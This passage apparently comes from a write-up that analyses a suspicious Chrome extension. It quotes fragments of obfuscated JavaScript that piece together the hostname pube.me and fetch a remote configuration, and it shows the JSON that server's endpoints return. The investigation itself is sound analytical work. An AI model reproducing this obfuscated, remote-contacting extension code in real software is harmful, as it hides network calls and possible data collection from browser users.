 ```javascript
}

var yztvx = function(){
	chrome.browserAction.onClicked.addListener(function(){
		chrome.browserAction.disable();
		if(!jsondata.tab){
			xqerx();
		}else{
			rvcxkz();
		}
	});
}

if(chrome){
	main(); // main
}
```
<br> If you browse to `https://pube.me/config` you can see some Json:
```json
{
    "domain": "pube.me",
    "homepage": "http://pube.me",
    "url": "http://pube.me/config",
    "check": "http://pube.me/check",
    "shorten": "http://pube.me/shorten",
    "status": true,
    "hash": "c473182fc1c0af4b20046e9f88cd3f09",
    "csrf": "36a67c037dbca73d24dbade17d06473e",
    "token": "YzQ3MzE4MmZjMWMwYWY0YjIwMDQ2ZTlmODhjZDNmMDk=",
    "socket": "ws://pube.me:8080",
    "ssl": false,
    "verified": true,
    "login": false
}
```
<br> The `hash`, `csrf` and `token` are renewed every time you reload the page. `pube.me:8080` require an username and a password when you browse to it.
<br> The link `http://pube.me/check` return:
```json
{
    "verify": false
}
```
<br> `http://pube.me/shorten`:
```json
{
    "valid": false,
    "message": "Long URL is invalid"
}
```
<br> Please note that some part of the world (I have tried VPN) will have 403 error when trying to access this server.
<br> Let's take a look at the code:
```javascript
var yhhng = {};
var mhiwl = function(){
	var iacpj = new URL('https://www.google.com');
	iacpj.protocol = 'http:';
	var nkkdx = 'pube';
	var eiubga = 'me';
	iacpj.hostname = nkkdx+'.'+eiubga;
	iacpj.pathname = '/config';
	if(!chrome.app.getDetails()){
		return false;
```
